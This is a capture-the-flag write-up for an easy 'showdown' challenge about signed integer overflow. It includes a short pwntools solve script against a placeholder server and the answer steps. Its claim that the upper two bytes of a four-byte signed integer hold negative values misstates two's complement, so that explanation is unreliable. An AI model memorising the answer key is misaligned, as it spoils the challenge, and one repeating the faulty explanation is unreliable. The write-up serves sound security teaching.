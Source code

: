# Challenge Name
showdown

## Learning Objective
Learn about integer overflow

## Description 
The Evil Megacorp has stolen people's money! We managed to get in secretly but gotta break their bank somehow...

## Difficulty:
easy

## Guide
We have the following:

```sh
-----------EVIL MEGACORP BANK-----------
Bank Amount: 100000
----------------------------------------

Options:
1. Hack
2. Weaken
3. Steal
Enter your choice: 
```

Let's breakdown what happens each option:
1. Hack - sends 10000 to the bank, multiplied by the `multiplier` variable
2. Weaken - multiplies `multiplier` variable by 10, but caps at 10 million
3. Steal - takes away 20000 from the bank

if we attempt to steal all the money, you will wind up with this output:

```sh
You've been caught by the system administrator.
```

This is because the program will catch if the bank amount is between 0 to -100000. The flag only prints if the value is beyond -100000.

So what can we do then?

### Integer overflow
This happens when you try to exceed the value that is meant for the integer type assigned to a variable. In this case:

```c
signed bank_amt = 100000;
```

### Signed integer
`Signed` integers can be both positive and negative values. But using bits and bytes, how can there be negative numbers?

Since `signed` integers (in this case is 4 bytes in size), it will allocate the upper half (2 bytes) to negative integers.

```sh
# Signed 4 byte integer

Hex: 0x7FFFFFFF
Dec: 2,147,483,647

Hex: 0x80000000
Dec: -2,147,483,648
```

### What can we do?
In this case, since we want to break the bank amount (make it go negative), we will
1. Cap the `multiplier` variable (use weaken)
2. Hack with the max multiplier

### Manual Solve
1. Use `weaken` 7 times (to cap `multiplier`)
2. use `hack` (send the final amount)

You should be able to observe the final bank amount as well.

### Script solve
we first choose option 2 (weaken) 7 times. We can just do this in a loop:

```py
from pwn import *

p = remote("SERVER", PORT)

for i in range(7):
    p.sendline(b'2')
```

If we are gonna receive the flag, we need to first remove the previous lines that we have received so far. This can be done with the following:

```py
p.clean()
```

and finally choose option 1 and receive the flag.

```py
p.sendline(b'1')
print(p.recvall().strip().decode())
```

### Final
```py
from pwn import *

p = remote("SERVER", PORT)

for i in range(7):
    p.sendline(b'2')
p.clean()
p.sendline(b'1')
print(p.recvall().strip().decode())
```
## Solution
Refer to solve.py

## Hints
1. Search up "signed integers"
2. Figure a strategy to send a big amount to the bank.

## Attached Files
- chall.c
- chall

## Resources
- https://www.geeksforgeeks.org/different-ways-to-represent-signed-integer/

## Flag
TBD